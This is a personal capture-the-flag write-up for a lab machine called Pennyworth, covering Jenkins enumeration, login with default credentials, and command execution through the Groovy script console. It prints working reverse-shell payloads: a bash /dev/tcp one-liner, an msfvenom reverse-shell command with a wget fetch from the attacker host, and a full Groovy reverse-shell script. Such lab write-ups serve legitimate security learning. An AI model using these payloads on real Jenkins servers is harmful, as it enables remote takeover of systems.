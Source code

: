 # Pennyworth

> 10.129.59.175

## Nmap
```
nmap 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 21:37 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
```

```
nmap -sS -sV -sC -O -p 8080 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 21:39 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.26 seconds
```

## Jetty
> Eclipse Jetty is a Java web server and Java Servlet container. While web servers are usually associated with serving documents to people, Jetty is now often used for machine to machine communications, usually within larger software frameworks.

## Jenkins
- Access the site: `http://10.129.59.175:8080`
- You get a login screen that says, "Welcome to Jenkins!" and asks for username and password.
- Found an nse script here: https://github.com/icarot/NSE_scripts/blob/master/jenkins-info.nse
  - Downloaded and just ran it...
```
nmap --script jenkins-info -p 8080 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 22:05 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).

PORT     STATE SERVICE
8080/tcp open  http-proxy
| jenkins-info: 
|   Hudson Version: 1.395
|   Jenkins Version: 2.289.1
|   Jenkins Session ID: aa6c090a
|_  Server: Jetty(9.4.39.v20210325)

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
```

Google search: "jenkins default credentials"
- Results: admin:password
- Didn't work. "admin" is a Windows login.
- **root:password** worked and I got in.

In order to get to the Groovy Script CLI page: 
> Jenkins features a [Groovy script console](https://www.jenkins.io/doc/book/managing/script-console/) which allows one to run arbitrary Groovy scripts within the Jenkins controller runtime or in the runtime on agents.
- The Script Console on the controller can be accessed from "Manage Jenkins" > "Script Console" (takes you to: `/cli`). Or by visiting the sub-URL `/script` on your Jenkins instance.
  - The former takes you to a list of "Available Commands," but I could not access the actual CLI.
  - Using the `/script` in the URL took me right to the CLI. 

----
> respawn: 10.129.212.139

I tried some arbitrary commands in the CLI: 
- `which bash` : gave me an error
- `ifconfig`   : gave me an error
- And so I Googled for help...

[How to Execute Commands in Groovy](https://groovy-lang.gitlab.io/101-scripts/basico/command_local-en.html)
- You need to use the `execute()` method.
- The following found [here](https://stackoverflow.com/questions/2701547/how-to-make-system-command-calls-in-java-groovy): 
  - The simplest way to invoke an external process in Groovy is to use the execute() command on a string. For example, to execute maven from a groovy script run this:
```
"cmd /c mvn".execute()
# if you want to capture the output of the command and maybe print it out, you can do this:
print "cmd /c mvn".execute().text
# the 'cmd /c' at the start invokes the Windows command shell. Since mvn.bat is a batch script you need this. For Unix you can invoke the system shell.
```

### Some stuff I tried:
```
"cat /etc/passwd ".execute().text          # that printed the /etc/passwd file
"ifconfig".execute().text                  # that showed me network info
"which bash".execute().text                # result: /usr/bin/bash
"bash --version".execute().text            # result: version 5.0.17(1)-release
"ping -c 5 10.129.212.139".execute().text  # got all pings returned okay
```

Therefore I can execute arbitrary system commands on the box as root. 

## Pwn
- The famous bash one-liner
### Set up a listener on my local/attack machine: 
```
nc -nvlp 1234     # TCP listener
nc -nvlup 1234    # UDP listener
```

### Executed the Bash One-Liner: 
```
/bin/bash -c 'bash -i &> /dev/tcp/10.10.14.170/1234 0>&1'
```
Did not work. Tried the following and nothing worked: 
```
# on the local machine
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.170 LPORT=1234 -f elf > shell-x64.elf
python3 -m http.server 80
# on the remote machine
"wget http://10.10.14.170/shell-x64.elf".execute().text
```

The wget executed but I could not get the shell executable to run on the target.
- Apparently in Groovy you need to create a cmd process that will execute the file.


## Walkthrough
Jenkins exposures (should have found these via a Google search):
- [A handbook including multiple ways of gaining Jenkins RCE's](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)
- [A repository similar to the above, including links to scripts and tools](https://github.com/gquere/pwn_jenkins)

Since it only executes the Groovy commands, we will need to create a payload in Groovy to execute the reverse shell connection.
- In order to do that, we will need a specially crafted payload, which we can find in the following GitHub [cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).
- He used the one here but cleaned it up a little by putting separate commands on each line (NOTE: you need to take out my #comments before running in Groovy).
```
String host="{your_IP}";    # Specify the IP address for the target to connect back to
int port=1234;              # Specify the port on which the attacker will listen on
String cmd="/bin/bash";     # Specify the shell type the attacker expects

# The rest of the script will instruct the target to create a cmd process which will initialize a connection request to the provided host and port (us, in this case). 
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And that's it. I'm in. 

```
/bin/bash -i
root@pennyworth:/#

root@pennyworth:/# find / -name "flag.*" 2>/dev/null
find / -name "flag.*" 2>/dev/null
/root/flag.txt

root@pennyworth:/# cat /root/flag.txt
cat /root/flag.txt
9cdfb439c7876e703e307864c9167a15
```

![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/c26f2bc2-fb84-4f06-be09-44c8cbcc8fd3)
